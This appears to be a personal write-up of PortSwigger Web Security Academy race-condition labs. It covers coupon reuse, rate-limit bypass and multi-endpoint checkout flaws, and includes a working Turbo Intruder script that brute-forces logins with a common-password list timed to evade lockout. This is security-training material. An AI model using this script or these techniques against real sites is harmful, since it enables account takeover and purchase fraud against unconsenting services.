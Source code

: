 # Race conditions

- https://portswigger.net/web-security/race-conditions
- https://portswigger.net/research/smashing-the-state-machine
- https://www.youtube.com/watch?v=tKJzsaB1ZvI
- https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
- https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/race-single-packet-attack.py

## Limit overrun race conditions

While making a purchase we are able to submit a coupon for 20% discount. 

`POST /cart/coupon` request applying the coupon can be intercepted and once we do that we can perform `single-packet-attack` using Burp Turbo Intruder, which makes use of HTTP2 streaming, stacking multiple requests in one connection, `Nagle's algorithm` and `last byte synchronization`. This send 20-30 request without their last byte, each in different stream. Then in the single frame send the ending of each frame in different streams, causing the server to accept and start calculating them all in nearly the same time.

Performing this attack for that requests reveals that there is not well handled time difference between accepting the coupon and devalidating it, which causes to apply the same coupon multiple times, solving the lab.

## Bypassing rate limits via race conditions

After too many failed request attempts the applications blocks us from performing further login tries for some increasing period of time.

We can observe, that sending a few requests one by one, starts responding with block error, but when sending 20 request at the same tim with `single-packet-attack`, the application always responds with `Incorrrect username or password`, and not with block error, because of that we can suspect race condition bug in this rate limiting functionality. 

Using Turbo Intruder code shown below, we are able to conduct `single-packet-attack`, performing 20 password guesses every block (every 60, 120, 180... seconds), because the application incorrecly handle time between checking the condition for block and blocking the account.

```
# Find more example scripts at https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
import time

REQUESTS_PER_GATE = 20
PASSWORDS = [
    "123123",
    "abc123",
    "football",
    "monkey",
    "letmein",
    "shadow",
    "master",
    "666666",
    "qwertyuiop",
    "123321",
    "mustang",
    "123456",
    "password",
    "12345678",
    "qwerty",
    "123456789",
    "12345",
    "1234",
    "111111",
    "1234567",
    "dragon",
    "1234567890",
    "michael",
    "x654321",
    "superman",
    "1qaz2wsx",
    "baseball",
    "7777777",
    "121212",
    "000000",
]

def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
    index = 0
    wait_seconds = 0
    for pwd in PASSWORDS:
        index += 1
        engine.queue(target.req, [pwd], gate='race')
        if index >= REQUESTS_PER_GATE:
            # once every 'race' tagged request has been queued
            # invoke engine.openGate() to send them in sync
            time.sleep(wait_seconds + 5)
            engine.openGate('race')
            wait_seconds += 60
            index = 0
            

def handleResponse(req, interesting):
    table.add(req)
```

## Multi-endpoint race conditions

In this lab, the key is to align processing time of different endpoints. This can be done by warming up the connection, sending multiple requests to add a delay in processing all of them etc.

This time the app has a logic flaw, which allow adding items to the basket after payment validation.

Using Burp Repeater group requests we can construct a group of requests and send them in sequence or as `single-packet attack`.

Here we will add 1 gift card to the basket via `POST /cart` request and then create a group of requests with 1 `POST /cart/checkout` request for submiting the payment and 19 `POST /cart` requests, but this time with `productId` pointing to the jacket, not the giftcard.

This required a couple of tries, but each time we could observe strange app behaviours, like not all products added to the basket (for example I was able to submit the basket successfull as first request, but only 4 of 19 jackets were added to the basket afterwards), not always errors regarding empty basket etc.

After 5th try I was able to successful buy a jacket and be left with -1200$ in the account.
